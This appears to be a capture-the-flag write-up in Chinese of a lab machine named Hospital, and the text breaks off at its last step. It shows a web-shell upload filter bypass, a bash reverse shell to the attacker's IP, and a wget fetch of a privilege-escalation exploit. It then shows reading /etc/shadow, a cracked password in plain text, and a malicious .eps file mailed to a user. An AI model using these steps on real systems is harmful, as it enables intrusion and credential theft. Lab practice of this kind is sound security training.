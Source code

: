 # Hospital 靶機練習(medium)
## 1.利用nmap掃描10.10.11.241
```
sudo nmap 10.10.11.241 -p- -sC -sV --min-rate 1000
```
### 發現有443和8080兩個port比較有機會獲得更進一步的資訊
![1](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/8a89c883-130c-46e8-bfd3-0d9cae352f74)
![2](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/9541de7a-2614-445e-99fe-44bc9d77b4a7)

## 2.在瀏覽器上訪問10.10.11.241:443和10.10.11.241:8080
### 發現443，需要事先在vim上輸入網域，需要username和password才能登入獲得更進一步的資訊
![13](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/c40b4813-2dfe-4df5-8156-1f7c27a03630)
![12](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/ef7dd453-f1a0-4d17-99dc-1bee0c2e9852)
![image](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/6624becd-83b0-4223-8cbe-d122b630a693)

### 所以我們只好選擇探索8080，發現可以創建新帳號，並且登入
![3](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/81cd7539-c16b-4b95-923c-b9ea8a506aae)

## 3.登入之後，嘗試利用shell.php進一步連線此主機，upload後發現失敗了
![32](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/64d8065c-1850-437a-93bd-f7fbee804279)
![image](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/231cfde8-1550-4848-907c-6be72a1a4297)

## 4.我們將shell.php改成shell.phar，再嘗試upload，發現success
![6](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/6d43ca8e-ebe3-404b-b7a9-d8f5a26b862b)
![image](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/b1122efc-567d-410b-833b-d12f2dba3ad5)

## 5.成功之後，在新分頁輸入10.10.11.241:8080/uploads/shell.phar
![7](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/1440f55a-9e78-4f5a-8794-fc23a4c8a2a6)

## 6.在p0wny@shell上輸入
```
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.40/1235 0>&1'
```
![8](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/b142627d-87a6-435e-aa9a-68337a9dd408)
### 成功監聽
![10](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/d74fed61-b00c-4ce1-8e68-207d859c0aed)

## 7.先目標主機上查看版本，在github上發現此版本存在CVE漏洞
![image](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/a8e13c79-041c-4515-9460-fd54216b9f47)
![image](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/2c3aca3a-c594-488d-be97-e2949fa0889a)

## 8.回到kali，在/Desktop/p0wny-shell資料夾裡，輸入
```
python3 -m http.server
```
![22](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/8a9ed812-48fd-4110-bcab-6919648adb86)

## 9.在/tmp裡創一個mio的資料夾，輸入
```
wget http://10.10.14.40:8000/exploit.c
```
### 獲得了exploit.c
![23](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/8f2e4bf2-20cd-4b26-9a30-433e7d25a605)

### 之後輸入
```
gcc exploit.c -0 exploit
./exploit
```
### 輸入上述指令後，獲得了root
![25](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/ace06c5f-8dd2-4f5f-980b-450a450d168e)

## 10.獲得root後，輸入
```
cat /etc/shadow
```
### 查看username和password
![26](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/417d74b8-cc31-4286-8a2a-e5d4bf3ce9a6)

## 11.利用john the ripper 破解password
![27](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/b374d98c-66eb-4f33-bfd3-aa6cd02a5338)

## 12.輸入
```
drwilliams
qwe123!@#
```
![15](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/c5e5002b-62a8-4a46-9995-63581e9d11f1)

### 登入之後發現drbrown發了一封信，信裡提到了GhostScript
![17](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/b525cc0e-6891-4194-bb62-6e65af51d184)

## 13.到revshells.com，設定腳本參數
![30](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/abf411ef-26a5-4e13-ac3c-59c09c12fb4a)

## 14.到kali上輸入powershell，獲得此payload
![31](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/c2750ccd-c821-448c-a959-6dbefea2fbfb)

## 15.把此.eps檔寄給drbrown
![35](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/80ffa29f-c543-4351-b3b0-bcbddbcc5e5e)

## 16.成功獲得drbrown使用者權限
![37](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/ec567ad0-1d20-4665-8a13-931ea6240421)
### 在
![38](https://github.com/laisongqing/Pub-ClassWork/assets/128339947/22ed1832-3fb9-4cef-96ad-593b278f5442)


